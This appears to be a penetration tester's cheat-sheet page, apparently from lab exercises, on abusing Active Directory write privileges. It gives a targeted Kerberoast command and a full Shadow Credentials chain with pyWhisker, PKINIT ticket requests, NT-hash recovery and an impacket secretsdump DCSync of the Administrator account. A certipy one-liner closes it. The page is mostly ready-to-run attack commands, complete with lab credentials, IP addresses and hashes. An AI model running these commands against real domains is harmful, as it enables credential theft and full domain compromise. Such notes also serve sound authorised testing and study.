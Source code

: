 
[Read_Blog](https://mayfly277.github.io/posts/GOADv2-pwning-part11/#genericwrite-on-user-jaime---joffrey)

## Targeted Kerberoast

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

```
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.

## Shadow Credentials attack

To abuse this privilege, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

```bash
STEPS TO RE_PRODUCE [Add-Key Credentials]!

proxychains python pywhisker.py --domain eu.junon.vl --user svc_backup --password 'b4ckup5821!'  --target "S021M200$" --action list

proxychains python pywhisker.py --domain eu.junon.vl --user svc_backup --password 'b4ckup5821!' --target "S021M200$" --action add -f escape_cert --export pem

NOTE : mostly pfx file bata hunxa ; but can also do via pem.

proxychains python pywhisker.py --domain eu.junon.vl --user svc_backup --password 'b4ckup5821!'  --target "S021M200$" --action list  [ To Check ]

proxychains python gettgtpkinit.py -cert-pem escape_cert_cert.pem -key-pem escape_cert_priv.pem eu.junon.vl/S021M200$ escape.ccache

proxychains python getnthash.py -key 2f5e4d00b61ad945471ecab1e080c25732cf5f6b93dca57b19bc393af412eb2c eu.junon.vl/S021M200$    [ Key  from minikerbereos ]

[ This is machine account hash --> So DC-Sync !]

proxychains -q impacket-secretsdump 'eu.junon.vl/S021M200$'@172.16.21.222 -hashes :e1b96420ba3d8cd93633d3e381a5f5d0 -just-dc-user Administrator

```


To abuse this privilege, can also use  [certipy](https://github.com/ly4k/Certipy).

```

└─# certipy-ad shadow auto -u rasczak@klendathu.vl -p starship99 -account rico -dc-ip 10.10.253.133 -debug

```